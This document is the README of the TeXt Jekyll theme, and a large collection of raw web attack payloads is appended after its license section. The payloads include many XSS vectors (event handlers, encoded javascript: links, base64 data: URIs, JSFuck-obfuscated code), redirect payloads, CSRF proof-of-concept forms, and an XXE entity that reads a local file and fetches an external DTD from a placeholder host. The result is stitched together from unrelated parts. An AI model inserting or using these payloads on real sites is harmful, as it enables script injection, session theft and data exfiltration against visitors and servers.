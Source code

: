# [TeXt Theme](https://github.com/kitian616/jekyll-TeXt-theme)

[![Gem Version](https://img.shields.io/gem/v/jekyll-text-theme.svg)](https://github.com/kitian616/jekyll-TeXt-theme/releases)
[![license](https://img.shields.io/github/license/kitian616/jekyll-TeXt-theme.svg)](https://github.com/kitian616/jekyll-TeXt-theme/blob/master/LICENSE)
[![Travis](https://img.shields.io/travis/kitian616/jekyll-TeXt-theme.svg)](https://travis-ci.org/kitian616/jekyll-TeXt-theme)

![TeXt Theme](https://raw.githubusercontent.com/kitian616/jekyll-TeXt-theme/master/screenshots/TeXt-home.jpg)

![TeXt Theme Details](https://raw.githubusercontent.com/kitian616/jekyll-TeXt-theme/master/screenshots/TeXt-layouts.png)

TeXt is a super customizable Jekyll theme for personal site, team site, blog, project, documentation, etc. Similar to iOS 11 style, it has large and prominent titles, round buttons and cards.

[Change Log](https://github.com/kitian616/jekyll-TeXt-theme/blob/master/CHANGELOG.md) | [中文文档](https://github.com/kitian616/jekyll-TeXt-theme/blob/master/README-zh.md)

## Features

- Responsive
- Semantic HTML
- Skins
- Highlight Theme
- Multi-language support
- Search
- Table of contents
- Authors (Email, Facebook, Twitter, Linkedin, Weibo, Zhihu, etc)
- Additional styles (alert, tag, image, icon, button, grid, etc)
- Extensions (audios, videos, slides)
- Markdown enhancements ([MathJax](https://www.mathjax.org/), [mermaid](https://mermaidjs.github.io/), [chartjs](http://www.chartjs.org/))
- Sharing ([AddToAny](https://www.addtoany.com/))
- Comments ([Disqus](https://disqus.com/))
- Pageview ([LeanCloud](https://leancloud.cn/))
- Analytics (Google Analytics)
- RSS ([jekyll-feed](https://github.com/jekyll/jekyll-feed))

## Skins

TeXt has 6 built-in skins, you can also set up your own skin.

| `default` | `dark` | `forest` |
| --- |  --- | --- |
| ![Default](https://raw.githubusercontent.com/kitian616/jekyll-TeXt-theme/master/screenshots/skins_default.jpg) | ![Dark](https://raw.githubusercontent.com/kitian616/jekyll-TeXt-theme/master/screenshots/skins_dark.jpg) | ![Forest](https://raw.githubusercontent.com/kitian616/jekyll-TeXt-theme/master/screenshots/skins_forest.jpg) |

| `ocean` | `chocolate` | `orange` |
| --- |  --- | --- |
| ![Ocean](https://raw.githubusercontent.com/kitian616/jekyll-TeXt-theme/master/screenshots/skins_ocean.jpg) | ![Chocolate](https://raw.githubusercontent.com/kitian616/jekyll-TeXt-theme/master/screenshots/skins_chocolate.jpg) | ![Orange](https://raw.githubusercontent.com/kitian616/jekyll-TeXt-theme/master/screenshots/skins_orange.jpg) |

### Highlight Theme

TeXt use [Tomorrow](https://github.com/chriskempson/tomorrow-theme) as the highlight theme.

| `tomorrow` | `tomorrow-night` | `tomorrow-night-eighties` | `tomorrow-night-blue` | `tomorrow-night-bright` |
| --- |  --- | --- | --- |  --- |
| ![Tomorrow](https://raw.githubusercontent.com/kitian616/jekyll-TeXt-theme/master/screenshots/highlight_tomorrow.png) | ![Tomorrow Night](https://raw.githubusercontent.com/kitian616/jekyll-TeXt-theme/master/screenshots/highlight_tomorrow-night.png) | ![Tomorrow Night Eighties](https://raw.githubusercontent.com/kitian616/jekyll-TeXt-theme/master/screenshots/highlight_tomorrow-night-eighties.png) | ![Tomorrow Night Blue](https://raw.githubusercontent.com/kitian616/jekyll-TeXt-theme/master/screenshots/highlight_tomorrow-night-blue.png) | ![Tomorrow Night Bright](https://raw.githubusercontent.com/kitian616/jekyll-TeXt-theme/master/screenshots/highlight_tomorrow-night-bright.png) |

## Documentation

### Start

- [Quick Start](https://tianqi.name/jekyll-TeXt-theme/docs/en/quick-start)
- [Update form 1.x to 2.x](https://tianqi.name/jekyll-TeXt-theme/docs/en/update-form-1-to-2)

### Customization

- [Configuration](https://tianqi.name/jekyll-TeXt-theme/docs/en/configuration)
- [Navigation](https://tianqi.name/jekyll-TeXt-theme/docs/en/navigation)
- [Layouts](https://tianqi.name/jekyll-TeXt-theme/docs/en/layouts)
- [Logo and Favicon](https://tianqi.name/jekyll-TeXt-theme/docs/en/logo-and-favicon)
- [Authors](https://tianqi.name/jekyll-TeXt-theme/docs/en/authors)

### Content

- [Writing Posts](https://tianqi.name/jekyll-TeXt-theme/docs/en/writing-posts)
- [Additional styles](https://tianqi.name/jekyll-TeXt-theme/docs/en/additional-styles)
- [Extensions](https://tianqi.name/jekyll-TeXt-theme/docs/en/extensions)
- [Markdown Enhancements](https://tianqi.name/jekyll-TeXt-theme/docs/en/markdown-enhancements)

## Demo Pages

| Name | Description |
| --- | --- |
| [Home](https://tianqi.name/jekyll-TeXt-theme/test/) | Home page |
| [Archive](https://tianqi.name/jekyll-TeXt-theme/archive.html) | Archive page |
| [Layout Examples](https://tianqi.name/jekyll-TeXt-theme/samples.html) | Examples for different layouts |

## License

TeXt Theme is [MIT licensed](https://github.com/kitian616/jekyll-TeXt-theme/blob/master/LICENSE).

<video src onratechange="alert(1)">



<A HREF='&#x6A;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3A;&#x61;&#x6C;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;'>XSS</A>



<input type="hidden" name="xsstest" value="hwul" accesskey="X" onclick="alert(45)" a=" ">



<img src=asdf onerror=confirm(1)>



<body onscroll=alert(1)>



<img src=1 onmouseenter=alert(1)>



<video src="http://x.x.x.x/test.mp4" onprogress="alert(1)"></video>



<video src="http://x.x.x.x/test.mp4" onprogress="confirm(1)"></video>



<video src="http://x.x.x.x/test.mp4" onprogress="prompt(1)"></video>



<video onsuspend="alert(1)" src="http://x.x.x.x/test.mp4"></video>



<video onsuspend=document.location.href="http://google.com" src="http://x.x.x.x/test.mp4"></video>



<input/autofocus/ONFOCUS=alert(2)>



`${Function`_${atob`CmFsZXJ0KCJSZWZsZWN0ZWQgWFNTIHZ1bG5lcmFiaWxpdHkgb24gTmF2ZXIhIik7Cgo=`}__```}`



%22+onmouseover="document.location='http://google.com'"+a



%22onmouseover="var a='<';var b='script>';var c='/script>';var d='aler';var e='t(1)';document.write(a%2Bb%2Bd%2Be%2Ba%2Bc);"+a



<div contextmenu="xss">Right-Click Here<menu id="xss" onshow="alert(1)"> 



<input type="search" onsearch=prompt(1) autofocus> 



<object data=data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==></object>



<a href=data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==>123</a>



data:image/gif;base64,R0lGODlhAQABAIAAAAAAAP///yH5BAEAAAAALAAAAAABAAEAAAIBRAA7



<embed src=data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==>



image/svg+xml

<?xml version="1.0" encoding="ISO-8859-1"?><html:html xmlns:html='http://www.w3.org/1999/xhtml'><html:script>alert(1);</html:script></html:html>



<div style="z-index:999999;position:fixed;top:0;left:0">

<form action='http://x.x.x.x.com' method="get" id="csrf_poc">

<input type="submit" value="Replay!" style="height:9999px; width:9999px; background-color:transparent;" />

</form>

</div>



<svgonload=confirm(99);>



<object data="javascript:alert(1)"></object>



<body onscroll=document.location.href="http://google.com"> 



<video src=http://x.x.x.x/test.mp4 onprogress=document.location.href="http://google.com"></video>



"><marquee/onstart=confirm(1)>



<img src="csrf 코드">



모바일 터치

<html ontouchstart=alert(1)> 



<html ontouchend=alert(1)> 



<html ontouchmove=alert(1)> 



<html ontouchcancel=alert(1)>



<body onorientationchange=alert(1)>



`${Function`_${atob`YWxlcnQoIm9pb2kiKTsKbG9jYXRpb24uaHJlZiA9ICJodHRwOi8vd3d3Lm9pb2kuY29tIjs=`}__```}`



<img src=1 onerror=$=~[];$={___:++$,$$$$:(![]+"")[$],__$:++$,$_$_:(![]+"")[$],_$_:++$,$_$$:({}+"")[$],$$_$:($[$]+"")[$],_$$:++$,$$$_:(!""+"")[$],$__:++$,$_$:++$,$$__:({}+"")[$],$$_:++$,$$$:++$,$___:++$,$__$:++$};$.$_=($.$_=$+"")[$.$_$]+($._$=$.$_[$.__$])+($.$$=($.$+"")[$.__$])+((!$)+"")[$._$$]+($.__=$.$_[$.$$_])+($.$=(!""+"")[$.__$])+($._=(!""+"")[$._$_])+$.$_[$.$_$]+$.__+$._$+$.$;$.$$=$.$+(!""+"")[$._$$]+$.__+$._+$.$+$.$$;$.$=($.___)[$.$_][$.$_];$.$($.$($.$$+"\""+$.$_$_+(![]+"")[$._$_]+$.$$$_+"\\"+$.__$+$.$$_+$._$_+$.__+"(\\\"\\"+$.__$+$.__$+$.___+$.$$$_+(![]+"")[$._$_]+(![]+"")[$._$_]+$._$+"\\\")"+"\"")())();>



<form method="POST" action="http://localhost:8000/users/1" accept-charset="UTF-8">

  <input name="_method" type="hidden" value="PUT">

  <input type="submit">

</form>



<--`<img/src=` onerror=alert(1)> --!>

<iframe/src \/\/onload = prompt(1)



<!DOCTYPE oioi [

<!ENTITY % file SYSTEM "file:///etc/pwd1">

<!ENTITY % dtd SYSTEM "http://x.x.x.x/ext.dtd">

%dtd;

%send;]>



<iframe srcdoc="&lt;img src&equals;x:x onerror&equals;alert&lpar;1&rpar;&gt;" />



<iframe srcdoc="<img src=1 onerror=alert(2)>" />



<img srcset=1 onerror="alert(1)">



<script src="data:text/plain,alert('oioi')"></script>



<script src="data:,alert('oioi')"></script>



<META HTTP-EQUIV="refresh" CONTENT="0;url=http://google.com">



<svg

onload=alert(1)>



onerror=alert;throw document.location='http://poioi.tistory.com'



eval('ale'+'rt(0)');
Function("ale"+"rt(1)")();
new Function`al\ert\`6\``;
setTimeout('ale'+'rt(2)');
setInterval('ale'+'rt(10)');
Set.constructor('ale'+'rt(13)')();
Set.constructor`al\x65rt\x2814\x29```;
